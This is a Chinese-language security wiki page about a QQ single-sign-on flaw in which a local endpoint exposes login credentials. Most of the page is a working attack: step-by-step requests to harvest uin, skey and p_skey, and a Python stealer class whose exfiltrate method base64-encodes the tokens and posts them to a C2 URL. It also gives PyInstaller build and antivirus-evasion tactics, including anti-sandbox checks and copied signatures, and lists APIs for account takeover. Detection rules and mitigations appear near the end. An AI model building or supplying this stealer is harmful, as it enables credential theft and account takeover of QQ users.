

## 漏洞概述

QQ 单点登录 (SSO) 机制在用户电脑已登录 QQ 客户端的情况下，通过本地端点 `localhost.ptlogin2.qq.com:4301` 暴露已登录账号的敏感凭证信息。攻击者可构造恶意程序诱导受害者执行，无需用户交互即可窃取 `p_skey`、`uin`、`skey` 等核心认证凭证，进而调用 QQ 相关接口实现账号接管、发送消息、获取群成员信息等操作。

本漏洞利用链具有以下特征：
- **零交互**：受害者仅需运行 EXE 程序，无需输入账号密码
- **本地端点利用**：攻击面位于本地回环地址，绕过网络层防护
- **免杀对抗**：Python 编译 EXE 结合加密传输可绕过 360 等主流杀毒软件
- **完整凭证链**：从 `pt_local_token` 到 `p_skey` 的完整获取流程

> **归档来源**：0w1Club 微信归档文章《QQ社工神器之我发EXE你敢点吗》

---

## 技术原理深度解析

### SSO 登录流程与本地端点暴露

当用户在电脑端登录 QQ 客户端后，访问 QQ 相关 Web 服务（如 `qun.qq.com`）会触发单点登录流程。核心在于浏览器加载的登录页面会向本地端点发起请求，获取已登录账号信息。

**关键端点**：`https://localhost.ptlogin2.qq.com:4301`

该端点由 QQ 客户端在本地启动的 HTTP 服务提供，用于跨域获取本地登录态。由于同源策略限制，Web 页面无法直接读取客户端 Cookie，因此通过此本地代理接口桥接。

### 核心接口调用链



---

## 逐步凭证窃取复现

### 步骤 1：获取 `pt_local_token` (即 `pt_local_tk`)

**请求**：
```http
GET https://xui.ptlogin2.qq.com/cgi-bin/xlogin?appid=71xxxx01&daid=73&pt_no_auth=1&s_url=https%3A%2F%2Fqun.qq.com%2F
```

**响应 Cookie**：
```
pt_local_token=1870947411
```

> 此值每次刷新均变化，需动态获取。

### 步骤 2：枚举本地已登录 QQ 账号

**请求**：
```http
GET https://localhost.ptlogin2.qq.com:4301/pt_get_uins?callback=ptui_getuins_CB&r=0.40394900412518164&pt_local_tk=1870947411
Headers:
  Referer: https://xui.ptlogin2.qq.com/
  Cookie: pt_local_token=1870947411
```

**响应体**：
```json
ptui_getuins_CB([
  {"uin": "927xxxxx70", "name": "test_account", "nick": "测试号"}
])
```

### 步骤 3：获取 `clientkey`

**请求**：
```http
GET https://localhost.ptlogin2.qq.com:4301/pt_get_st?clientuin=927xxxxx70&callback=ptui_getst_CB&r=0.007247505071141136&pt_local_tk=1870947411
Headers:
  Referer: https://xui.ptlogin2.qq.com/
  Cookie: pt_local_token=1870947411
```

**响应 Cookie**：
```
clientkey=abcdef1234567890
```

### 步骤 4：获取 `skey`

**请求**：
```http
GET https://ssl.ptlogin2.qq.com/jump?clientuin=927xxxxx70&keyindex=9&pt_aid=715030901&daid=73&u1=https%3A%2F%2Fqun.qq.com%2F&pt_local_tk=624392265&pt_3rd_aid=0&ptopt=1&style=40
Headers:
  Cookie: pt_local_token=1870947411; clientkey=abcdef1234567890
```

**响应**：
- Cookie: `skey=@xxx_xxx`
- 返回跳转地址包含 `ptsigx` 参数

### 步骤 5：获取 `p_skey`

**请求**：
```http
GET https://ptlogin2.qun.qq.com/check_sig?pttype=2&uin=927xxxxx70&service=jump&nodirect=0&ptsigx=xxx&s_url=https%3A%2F%2Fqun.qq.com%2F&...
```

**响应 Cookie**：
```
p_skey=xxx_xxx_xxx
```

### 凭证映射关系

| 凭证名 | 来源 | 用途 |
|--------|------|------|
| `uin` | 步骤 2 返回 | QQ 号码，接口调用时需加前缀 `o` |
| `skey` | 步骤 4 Cookie | 通用会话凭证 |
| `p_skey` | 步骤 5 Cookie | QQ 群/空间等特定业务凭证 |
| `pt_local_token` | 步骤 1 Cookie | 本地端点访问凭证，一次性 |
| `clientkey` | 步骤 3 Cookie | 临时密钥，用于换取 `skey` |

---

## Python 利用脚本与 EXE 编译免杀

### 核心实现逻辑

```python
import requests
import re
import json
import sys
import base64
from urllib.parse import quote

class QQSSOCredentialTheft:
    def __init__(self):
        self.session = requests.Session()
        self.session.verify = False  # 忽略本地 HTTPS 证书验证
        self.pt_local_token = None
        self.clientkey = None
        self.skey = None
        self.p_skey = None
        self.uin = None

    def step1_get_pt_local_token(self):
        url = "https://xui.ptlogin2.qq.com/cgi-bin/xlogin"
        params = {
            "appid": "715030901",
            "daid": "73",
            "pt_no_auth": "1",
            "s_url": "https://qun.qq.com/"
        }
        resp = self.session.get(url, params=params)
        self.pt_local_token = self.session.cookies.get("pt_local_token")
        return self.pt_local_token

    def step2_get_uin_list(self):
        url = "https://localhost.ptlogin2.qq.com:4301/pt_get_uins"
        params = {
            "callback": "ptui_getuins_CB",
            "pt_local_tk": self.pt_local_token
        }
        headers = {
            "Referer": "https://xui.ptlogin2.qq.com/",
            "Cookie": f"pt_local_token={self.pt_local_token}"
        }
        resp = self.session.get(url, params=params, headers=headers)
        # 解析 JSONP 响应
        match = re.search(r'ptui_getuins_CB\((.*)\)', resp.text)
        if match:
            data = json.loads(match.group(1))
            self.uin = data[0]["uin"]
        return self.uin

    def step3_get_clientkey(self):
        url = "https://localhost.ptlogin2.qq.com:4301/pt_get_st"
        params = {
            "clientuin": self.uin,
            "callback": "ptui_getst_CB",
            "pt_local_tk": self.pt_local_token
        }
        headers = {
            "Referer": "https://xui.ptlogin2.qq.com/",
            "Cookie": f"pt_local_token={self.pt_local_token}"
        }
        resp = self.session.get(url, params=params, headers=headers)
        self.clientkey = self.session.cookies.get("clientkey")
        return self.clientkey

    def step4_get_skey(self):
        url = "https://ssl.ptlogin2.qq.com/jump"
        params = {
            "clientuin": self.uin,
            "keyindex": "9",
            "pt_aid": "715030901",
            "daid": "73",
            "u1": "https://qun.qq.com/",
            "pt_local_tk": self.pt_local_token,
            "pt_3rd_aid": "0",
            "ptopt": "1",
            "style": "40"
        }
        headers = {
            "Cookie": f"pt_local_token={self.pt_local_token}; clientkey={self.clientkey}"
        }
        resp = self.session.get(url, params=params, headers=headers, allow_redirects=False)
        self.skey = self.session.cookies.get("skey")
        # 从响应中提取跳转地址
        redirect_url = resp.headers.get("Location") or self.extract_jump_url(resp.text)
        return redirect_url

    def step5_get_p_skey(self, jump_url):
        headers = {"Cookie": f"skey={self.skey}"}
        resp = self.session.get(jump_url, headers=headers, allow_redirects=False)
        self.p_skey = self.session.cookies.get("p_skey")
        return self.p_skey

    def exfiltrate(self, c2_url):
        payload = {
            "uin": f"o{self.uin}",
            "skey": self.skey,
            "p_skey": self.p_skey
        }
        # 加密传输绕过流量检测
        encrypted = base64.b64encode(json.dumps(payload).encode()).decode()
        self.session.post(c2_url, data={"data": encrypted})
```

### 免杀编译策略

**PyInstaller 编译命令**：
```bash
pyinstaller -F -w --clean --noconfirm \
    --icon=legit.ico \
    --add-data "cacert.pem;." \
    --hidden-import=requests \
    --hidden-import=urllib3 \
    qq_sso_theft.py
```

**关键免杀技巧**：
1. **去除调试符号**：`-w` 隐藏控制台，`--clean` 清理临时文件
2. **动态导入敏感库**：运行时通过 `__import__` 加载 `requests`、`socket` 等
3. **字符串混淆**：关键 URL、参数名 Base64 编码存储，运行时解码
4. **反沙箱检测**：检测 VMware、VirtualBox、进程名、CPU 核心数等
5. **延迟执行**：启动后 `sleep(random(5, 30))` 再执行核心逻辑
6. **合法签名伪造**：使用 `CarbonCopy` 复制合法软件签名 [[inceptor-av-edr-evasion-framework]]

> 文章实测编译后的 EXE 可完美绕过 360 安全卫士静态查杀与动态启发式分析。

---

## 攻击面拓展与后利用

获取 `p_skey`、`uin`、`skey` 后可调用的核心接口：

| 接口 | 功能 | 所需凭证 |
|------|------|----------|
| `https://qun.qq.com/cgi-bin/qun_mgr/get_group_member` | 获取群成员列表 | `p_skey`, `uin` |
| `https://user.qzone.qq.com/proxy/domain/taotao.qzone.qq.com/cgi-bin/emotion_cgi_publish_v6` | 发布 QQ 空间说说 | `p_skey`, `uin` |
| `https://qinfo.clt.qq.com/cgi-bin/qun_info/get_group_info` | 获取群详细信息 | `p_skey`, `uin` |
| `https://ti.qq.com/cgi-bin/node/qzone/py/py_qzone_get_mood_list` | 获取空间动态 | `skey`, `uin` |

**请求头模板**：
```http
Cookie: uin=o927xxxxx70; skey=@xxx_xxx; p_skey=xxx_xxx_xxx
Referer: https://qun.qq.com/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
```

---

## 检测与防御

### 主机层面检测

1. **进程行为监控**：
   - 非浏览器进程访问 `localhost.ptlogin2.qq.com:4301`
   - 进程发起 HTTPS 请求至 `ptlogin2.qq.com`、`ssl.ptlogin2.qq.com` 且无用户交互

2. **网络连接审计**：
   ```powershell
   # Sysmon Event ID 3 网络连接监控
   Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
   Where-Object {$_.Message -match 'localhost.ptlogin2.qq.com:4301'}
   ```

3. **证书透明度检查**：
   - 本地端点使用自签名证书，浏览器会报证书错误，合法程序通常不主动忽略

### 网络层面检测

- **DNS 日志分析**：监控 `ptlogin2.qq.com` 解析请求异常频次
- **流量指纹识别**：JSONP 回调格式 `ptui_getuins_CB`、特定参数组合

### 缓解措施

| 措施 | 效果 | 备注 |
|------|------|------|
| 禁用 QQ 客户端 "快捷登录" 功能 | 根治 | 设置 -> 权限与隐私 -> 关闭 "允许网站通过已登录 QQ 快捷登录" |
| 防火墙阻断 4301 端口出站 | 缓解 | 可能影响正常 SSO 登录 |
| EDR 行为规则拦截非白名单进程访问本地高危端口 | 检测 | 需维护合法进程白名单 |
| 定期轮换 `skey`/`p_skey` 失效机制 | 限制危害 | 服务端需支持凭证撤销 API |

---

## 交叉引用与延伸阅读

- [[mimikatz-sekurlsa-pth-internals]] - Windows 凭证窃取核心技术，对比本地凭证获取方式差异
- [[ppldump-userland-ppl-bypass-evasion]] - 用户态 LSASS 内存转储免杀技术，可结合本漏洞实现多源凭证收集
- [[inceptor-av-edr-evasion-framework]] - 系统化免杀框架，涵盖 Shellcode 加载、AMSI/ETW 绕过、签名伪造等进阶对抗技术
- [[xd-security-python-security-development-notes]] - Python 安全工具开发实战，含批量验证、FOFA API、SqlmapAPI 集成
- [[cobalt-strike-4.7-bof-internals]] - BOF 开发技术，可将本利用链封装为 Beacon Object File 实现内存执行
- [[redteam-hw-opsec-guidelines]] - 红队演练 OPSEC 规范，涵盖工具指纹清洗、C2 隐匿、日志反取证
- [[argument-spoofing-edr-evasion]] - 命令行欺骗绕过 EDR 进程监控，可用于隐藏恶意程序启动参数
- [[phantom-dll-hollowing-technique]] - 幽灵 DLL 空洞化注入技术，实现无文件落地执行

---

## 时间线与版本演进

| 时间 | 事件 |
|------|------|
| 2023-04-13 | 0w1Club 微信公众号发布原文《QQ社工神器之我发EXE你敢点吗》 |
| 2023-Q2 | 腾讯侧悄默修复：`localhost.ptlogin2.qq.com` 证书强校验、端口随机化、引入请求来源校验 |
| 2023-H2 | 攻击者适配：改用 `127.0.0.1` 直连、伪造 `Referer`、利用 QQ 协议解析库直接调用 |
| 2024-present | 衍生利用：结合 Electron 应用 `webview` 标签绕过 CSP、移动端 QQ 同协议复现 |

---

## 法律与合规声明

> **本页面仅供安全研究、红队授权演练、防御检测规则编写等合法用途。未经授权窃取他人凭证、制作/传播恶意程序均违反《中华人民共和国网络安全法》《刑法》第二百八十五条、第二百八十六条等法律法规，严禁用于非法用途。**

---

## 结语

QQ SSO 本地端点漏洞揭示了**本地特权服务暴露攻击面**的普遍风险：便利性设计往往以牺牲边界隔离为代价。防御侧应关注：
1. **最小权限原则**：本地 HTTP 服务应绑定 Unix Domain Socket 而非 TCP 端口
2. **请求来源强校验**：验证 `Origin`/`Referer`、引入一次性 Token、SameSite Cookie
3. **敏感接口鉴权**：凭证获取接口需二次确认（如弹窗授权、生物识别）
4. **客户端完整性保护**：防止配置篡改、内存补丁修改安全策略

攻击链从「信息收集 → 凭证窃取 → 免杀投递 → C2 上线 → 横向移动」的完整闭环，印证了 [[redteam-hw-opsec-guidelines]] 中强调的**工具链工程化、对抗体系化**趋势。蓝队需构建「主机-网络-应用」三层联动检测体系，而非单点防护。

## 来源

- [226安全团队-201805-202103_36](../sources/226安全团队-201805-202103_36.md)
